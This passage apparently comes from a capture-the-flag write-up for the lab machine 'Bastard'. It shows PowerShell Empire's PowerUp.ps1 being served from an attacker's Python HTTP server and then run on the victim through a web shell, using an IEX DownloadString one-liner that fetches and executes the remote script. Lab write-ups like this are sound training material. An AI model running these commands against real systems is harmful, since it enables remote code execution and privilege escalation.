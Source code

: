<figure>
  <img src="{{site.baseurl}}/img/InspecElemAdmBastard.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/InspecElemAdmBastard.png" title="Successful session hijacking with JS">Successful session hijacking with JS</a>
  </figcaption>
</figure> 

## How to use Powershell Empire  

PowerShell Empire is a post-exploitation framework for computers and servers running Microsoft Windows, Windows Server operating systems, or both.  
[Article Complete](https://www.powershellempire.com)  

We execute the following command to clone the repository:  

{% highlight shell %}
git clone https://github.com/EmpireProject/Empire.git
{% endhighlight %}  

Now that we have PSE downloaded lets copy the PowerUp.ps1 so we can edit it.  

{% highlight shell %}
cp Empire/data/module_source/privesc/PowerUp.ps1 ./
{% endhighlight %}  

PowerUp.ps1 was made to run inside of empire so we need to add at the botom of the file **“Invoke-AllChecks”** and save.  

In order to upload the script to our victim, I will mount an HTTP server that hosts the script in powershell; later from the victim machine I will download the file making a GET request to the route where we specify.  
We go to the folder that contains our powershell script and execute the following to mount an HTTP server with Python.  

{% highlight shell %}
python3 -m http.server
{% endhighlight %}  

Then, through PowerShell, we downloaded the file into our victim computer.  

{% highlight shell %}
http://10.10.10.9/Gerh.php?cmd=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/PowerUp.ps1') | PowerShell -Noprofile -
{% endhighlight %}    

After making the request through the previous URL, in our attacking machine we will receive in real time the request by the GET method to the PowerUp.ps1 file.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4171]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [16/Apr/2019 04:02:03] "GET /PowerUp.ps1 HTTP/1.1" 200 -
{% endhighlight %}  
